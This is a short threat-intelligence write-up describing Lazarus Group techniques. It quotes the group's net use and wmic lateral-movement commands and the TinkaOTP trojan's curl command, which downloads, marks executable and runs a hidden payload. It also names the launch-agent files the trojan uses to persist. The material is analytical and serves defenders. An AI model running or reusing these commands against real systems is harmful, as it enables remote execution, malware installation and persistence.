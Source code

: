 # Lazarus Group

## Features

1. Used when moving transverse:net use \\[IP]\IPC$ "[password]" /u:"[username]" > $temp\~tmp5936t.tmp 2>&1",Command to establish a network connection with the remote host, and then use WMI to copy the malicious software to the remote host.

```bash
wmic.exe /node:[IP] /user:"[username]" /password:"[password]" PROCESS CALL CREATE "cmd.exe /c $appdata\Adobe\adobe.bat"
wmic.exe /node:[IP] /user:"[username]" /password:"[password]" PROCESS CALL CREATE "cmd /c sc queryex helpsvc > $temp\tmp001.dat"
```

2. The two variants of TinkaOTP Trojan Horse for MacOS are Mach-O binary files disguised as .nib files, and the second version does not carry payload，Instead, embed its C2 address into the main execution file of the TinkaOTP package, and use the command：curl -k -o ~/Library/.mina https://domain/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev/null 2>&1，download payload.
After that, TinkaOTP Trojan passed /LaunchAgents/com.aex-loop.agent.plist and /Library/LaunchDaemons/com.aex-loop.agent.plist, to maintain persistence.

3. The RATANKBA backdoor will use WMI to collect the running process, command line, and session ID information of the infected host and send it to the C2 server.

```bash
"C:\Windows\system32\cmd.exe" /c "wmic process get processid,commandline,sessionid | findstr SysWOW"
"C:\Windows\system32\cmd.exe" /c "wmic process get processid,commandline,sessionid | findstr x86"
//Display running process, command line, session ID
```
